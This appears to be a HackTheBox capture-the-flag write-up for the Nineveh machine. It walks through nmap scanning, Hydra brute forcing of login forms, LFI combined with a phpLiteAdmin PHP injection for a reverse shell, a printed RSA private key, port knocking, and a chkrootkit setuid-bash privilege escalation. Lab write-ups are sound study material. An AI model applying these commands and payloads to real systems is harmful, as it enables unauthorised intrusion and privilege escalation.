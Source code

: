 ```yaml
---
title: "Nineveh"
date: 2023-06-26T12:51:31+02:00
tags: ["linux","lfi"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Nineveh.png
description: "This write-up will be about the HackTheBox machine called Nineveh. "
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "A linux room that " 
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Nineveh
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Nineveh

![Untitled](/HTB/Nineveh.png)

## Tools Used

- Nmap
- Searchsploit
- 

## Port Scanning

Other room, other port scan.

```bash
nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn 10.10.10.43 -oN escaneo 
```
![Untitled](/HTB/nmap-nineveh.png)

I found only 1 open port. Let’s focus on it.

## Enumeration

First I saw is that there are two url's one with https and one other with http. I found two diferent login page
one on each url.

![Untitled](/HTB/gobuster-nineveh.png)


## Exploiting

After trying some basic SQL injections and some basic names I decided to brute force with Hydra. With the following commands:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form /db/index.php:"password=^PASS^&proc_login=^USER^:Incorrect password."
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form /department/login.php:"password=^PASS^&proc_login=^USER^:Invalid password."
```

![Untitled](/HTB/db_nineveh.png)

![Untitled](/HTB/hydra_nineveh.png)

When I logged into both I got these interfaces:

![Untitled](/HTB/login-nineveh.png)

![Untitled](/HTB/dbcreate-nineveh.png)

In the page of department, I saw that in **notes** menu the url changes to something so strange. So as always I tried
to find LFI and surprise there is jeje.

![Untitled](/HTB/lfi-nineveh.png)

Once I discovered this I will go to make an oo on the other website. The name of phpLiteAdimn was strange to me since it 
also had a version, so I looked it up in searchsploit and found that there were several vulnerabilities, one of them that 
matched my version said like this: if I manage to create a database and save it in .php, it should be stored with the rest 
in /var/temp/... and I create a table with a single box and enter a code in PHP (reverse shell), then I can access from 
the other page because of the LFI vuln and execute the php command.

![Untitled](/HTB/searchsploit-nineveh.png)

![Untitled](/HTB/dbcreate-nineveh.png)

And suprise we can controle terminal with that so let's do a reverse shell and ...

![Untitled](/HTB/bash-nineveh.png)

![Untitled](/HTB/pwnd-nineveh.png)

The machine is pawned !!

## Gaining an Initial Foothold

I try to do `sudo -l` but no works...

Searching I found the id_rsa of user ambrois

```ruby
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```

Next, I found the knockd.conf file in /etc. Reading it:

![Untitled](/HTB/knock-nineveh.png)

So if I do this sequence:
```bash
 knock nineveh.htb 571 290 911
```
I can open ssh port and connect by id_rsa that I found before ...

```bash
knock nineveh.htb 571 290 911
```
So I'm now ambrois ...

Next I use **procmon.sh** program to list al process that are running on sistem,
and I saw one called **chkrootkit**, and searching for it I learn that this program
opens the arhive **/temp/update**, so I can create a file called update with this:

```bash
 #!/bin/sh
 chmod +s /bin/bash
```
and then execute `bash -p` and I'm root!! 


The procmon.sh ->
```bash
 #!/bin/bash

old_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')

while true; do
        new_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>]" | grep -vE "procmon|awk|kworker"
        old_process=$new_process
done
```
## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about lfi, hydra, port knocking and chrootkit.
    
- Were there any novel tools or techniques employed?
    
    The use of hydra I think.
